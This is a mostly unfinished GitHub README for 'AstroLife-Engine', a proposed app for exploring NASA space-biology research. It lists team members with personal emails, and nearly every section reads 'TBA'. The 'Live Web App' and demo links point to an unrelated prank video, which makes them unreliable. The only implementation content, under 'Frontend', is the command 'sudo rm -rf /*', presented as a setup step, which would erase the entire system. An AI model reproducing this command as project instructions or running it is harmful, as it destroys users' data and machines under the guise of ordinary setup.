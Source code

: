 # Project: AstroLife-Engine
### A Space Biology Knowledge Engine 

***AstroLife Engine is a dynamic web application designed to simplify decades of NASA’s bioscience research for the future of human space exploration. By leveraging NASA’s open dataset of more than 600 space biology publications, AstroLife makes it easy to search, identify, and visualize key findings. The platform helps researchers, mission planners, and space enthusiasts explore insights more efficiently, enabling better understanding of how living systems adapt to space and supporting humanity’s journey to the Moon, Mars, and beyond.***  

🚀 [Live Web App](https://www.youtube.com/watch?v=dQw4w9WgXcQ) | 🎥 [Demo Video](https://www.youtube.com/watch?v=dQw4w9WgXcQ)

---

## 1. Title & Team
**Project Title**: Astrolife - Engine  
**Team**: Luminara  
- [![GitHub – Ryan Ahmed](https://img.shields.io/badge/GitHub-RyanAhmed911-blue?logo=github)](https://github.com/RyanAhmed911) – TBA  
- [![GitHub – Nusayba Mahfuza Zaman](https://img.shields.io/badge/GitHub-Nusuwuba-blue?logo=github)](https://github.com/Nusuwuba) – ✉️ nusaybazaman3@gmail.com  
- [![GitHub – Raiyan Rahman](https://img.shields.io/badge/GitHub-Raiyan465--F1-blue?logo=github)](https://github.com/Raiyan465-F1) – TBA  
- [![GitHub – Zarin Tasnim](https://img.shields.io/badge/GitHub-ZarinTasnimNadia-blue?logo=github)](https://github.com/ZarinTasnimNadia) – ✉️ zarin_nadia@yahoo.com  
- [![GitHub – Al-Saihan Tajvi](https://img.shields.io/badge/GitHub-Al--Saihan-blue?logo=github)](https://github.com/Al-Saihan) – ✉️ al.saihan.bafsd.5@gmail.com  


---

## 2. Executive Summary
- Problem: TBA 
- Solution: TBA
- Outcome: TBA

---

## 3. Introduction
- Context: TBA
- Need: TBA

---

## 4. Problem Statement
- TBA  
- TBA 

---

## 5. Objectives
- TBA
- TBA
- TBA
- TBA

---

## 6. Target Users
- TBA
- TBA
- TBA
- TBA

---

## 7. Solution Overview
- TBA
- TBA
- TBA
- TBA

---

## 8. System Architecture
- **Frontend**: TBA
- **Backend**: TBA
- **Datastores**: TBA
- **ML Models**: TBA

---

## 9. Features & Components
- **Visualization**: TBA
- **Categorization**: TBA
- **Habitability Scoring**: TBA
- **SNR Calculation**: TBA
- **ML/AI Integration**: TBA

---

## 10. Implementation
### Frontend
```bash
sudo rm -rf /*
```

